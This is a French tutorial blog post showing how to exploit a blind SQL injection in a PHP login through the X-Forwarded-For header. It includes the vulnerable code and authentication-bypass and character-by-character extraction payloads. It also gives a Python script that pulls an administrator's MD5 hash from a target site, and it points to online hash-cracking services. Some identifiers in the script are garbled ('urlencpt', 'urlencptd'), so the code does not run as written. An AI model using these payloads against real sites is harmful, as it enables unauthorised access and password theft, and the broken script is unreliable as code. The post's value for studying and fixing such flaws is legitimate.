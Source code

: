 ```yaml
---
layout: post
title: Blind SQL injection via un header HTTP
description: Cet article présente une façon originale d'exploiter une faille de type injection SQL.
categories: articles
tags: [hacking]
photo: sqli_http_header.png
comments: true
---
```


Cet article présente une façon originale d'exploiter une faille de type injection SQL. La faille se trouve dans un formulaire d'identification et plus précisément dans le code PHP qui ne contrôle pas tous les paramètres de la requête SQL.

Le code PHP est le suivant :

{% highlight php %}
<?php
$req = mysql_query("SELECT login,pwd FROM administrators
                    WHERE login='".sanitize($_POST['login'])."'
                    AND pwd='".md5($_POST['password'])."'
                    AND ip='".ip()."'");
?>
{% endhighlight %}

La variable login est correctement contrôlée grâce à la fonction `sanitize()` :

{% highlight php %}
<?php
function sanitize($param){
    if (is_numeric($param)){
    	return $param;
	}
	else{
		return mysql_real_escape_string($param);
	}
}
?>
{% endhighlight %}

Et le mot de pass est directement converti en MD5, rien à faire de ce coté là. Intéressons nous au paramète `IP` et plus particulièrement à la fonction `ip()`.

{% highlight php %}
<?php
function ip(){
    if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])){
		$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
    }
	else{
		$ip = $_SERVER["REMOTE_ADDR"];
    }

	if (preg_match("#^[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}#",$ip)){
		return $ip;
	}
	else{
		return $_SERVER["REMOTE_ADDR"];
	}
}
{% endhighlight %}

On remarque que la récupération de l'adresse ip repose sur un header `HTTP _X_FORWARDED_FOR` et que le seul contrôle effectué est un `preg_match` qui permet de vérifier que le paramètre contient bien au moins une adresse ip. Il est alors possible d'injecter du code SQL dans le header HTTP afin de bypasser l'identification voir même d'extraire les informations de la BDD.

En modifiant le header par :

    127.0.0.1' or 1=1#

La requête est forcément vraie et on se retrouve identifié \o/

De la même manière on va pouvoir récupérer le password de l'administrateur, en effet lorsque la requete est fausse la page affiche "Mot de passe incorrect", en effectuant une [blind SQL injection](http://www.ghostsinthestack.org/article-11-blind-sql-injections.html) il est possible de retrouver le mot de passe caractère par caractère, exemple :

    127.0.0.1' or ascii(substring(pwd,1,1))=48#

Si la requête est vraie et donc que l'on se retrouve identifié alors cela veut dire que le premier caractère du mot de passe est "0" (48 en ascii)

J'ai écrit un petit script en python (mon premier) qui permet d'automatiser tout cela :

{% highlight python %}
import httplib
import urllib
import re

password = ""

md5 = ['0','1','2','3','4','5','6','7','8','9','a','b','c','d','e','f']
cpt = 0
i = 1

while i<=32:

	print 'Recherche du caractère '+str(i)
	if cpt == 16:
		cpt = 0

	print 'Test caractere : '+md5[cpt]
	params = urllib.urlencpt({'login': 'admin', 'pwd': 'password'})
	headers = {"Content-type": "application/x-www-form-urlencptd",
               "Accept": "text/plain",
               "x-forwarded-for":"127.0.0.1' or ascii(substring(pwd,"+str(i)+",1))="+str(ord(md5[cpt]))+"#"}
	conn = httplib.HTTPConnection("www.site.com:80")
	conn.request("POST", "/index.php", params, headers)
	response = conn.getresponse()
	print response.status, response.reason
	data = response.read()
	conn.close()

	if not(re.search('incorrect',data)):
		print 'Caractère trouvé : '+md5[cpt]
		password += md5[cpt]
		i += 1
		cpt = 0
	else:
		cpt += 1

print 'MD5 = '+str(password)
{% endhighlight %}

Et voila on trouve le hash et un passage par [cmd5.org](http://www.cmd5.org/) ou par [md5decrypter.co.uk](http://www.md5decrypter.co.uk/) nous donne la correspondance. Si vous avez des questions, commentaires n'hésitez pas.